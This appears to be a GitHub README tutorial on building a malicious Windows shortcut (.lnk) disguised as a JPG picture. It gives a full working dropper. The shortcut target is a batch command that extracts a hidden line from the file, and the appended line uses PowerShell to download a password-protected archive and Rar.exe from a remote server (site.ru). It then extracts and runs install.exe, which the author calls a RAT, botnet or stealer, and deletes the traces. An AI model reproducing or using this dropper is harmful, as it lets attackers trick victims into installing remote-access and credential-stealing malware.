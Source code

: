 <h1 align="center">lnk artifact</h1>

<a href="https://youtu.be/LOv5SX6uaHM"> how to assemble TCP-Server-Client </a>

<p align="center">
	<i>Toxic shortcuts in Windows: an old artifact, not forgotten by hackers, but partially forgotten by forensics..</i>
</p>

-------
I welcome all friends, this is by no means an advertisement of a third-party resource, but you can find more detailed information on [Habr](https://habr.com/ru/company/group-ib/blog/493906/).

In this topic, I will show only how to use it for my own purposes.
All we need is the winrar archiver, or rather Rar.exe and our malicious RMS or RAT or BOTNET or STEALER file, etc. etc. Next, we pack our malicious file called install.exe into an archive with a password, password: 123321, the name of the archive at the output is install.rar, upload the Rar.exe and install.rar files to our server and give both files permission 777 to read, write and execution.

We have already dealt with the introductory part, let's proceed to the assembly.

We will mask it under the picture, therefore we create a shortcut on the desktop and indicate the code in the location:

---
~~~bat
%COMSPEC% /c "copy /Y image.lnk %temp%\1&findstr /c:"@ECHO" %temp%\1>%temp%\s.bat&start /MIN %TEMP%\s.bat&exit"
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/W1HMyrnr/1.png" />
</p>

Next, we set the name of what is in the location: image

<p align="center">
	<img src="https://i.postimg.cc/2Sh0n0my/2.png" />
</p>

Next, go to the properties of the lnk file and remove the working folder

<p align="center">
	<img src="https://i.postimg.cc/Kv62ZpJ8/3.png" />
</p>

And optionally we put any icon, but since we want to disguise it as a picture, we select the jpg icon.

<p align="center">
	<img src="https://i.postimg.cc/4dY1WPtr/4.png" />
</p>

Open image.lnk in any text editor Notepad++ in my case, version 7.8.6 (Open np++ and transfer our lnk file to the main window) and add our code to download and launch the backdoor from the server to the next line:

---
~~~bat
@ECHO OFF && IF EXIST "%temp%\lnkexp.txt" (exit) ELSE echo lnkexp»%temp%\lnkexp.txt && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/install.rar', '%temp%/install.rar') && powershell -Command (new-object System.Net.WebClient).DownloadFile('http://site.ru/Rar.exe', '%temp%/Rar.exe') && %temp%\Rar.exe x -t -o+ -p123321 %temp%\install.rar %temp%\ && %temp%\install.exe && del /f /q %temp%\install.rar && del /f /q %temp%\Rar.exe && exit
~~~
---
<p align="center">
	<img src="https://i.postimg.cc/26znJfJb/5.png" />
</p>


That's all, our lnk is ready, and everything that I think further is intuitive.
Link to youtube: [www.youtube.com](https://youtu.be/LOv5SX6uaHM)

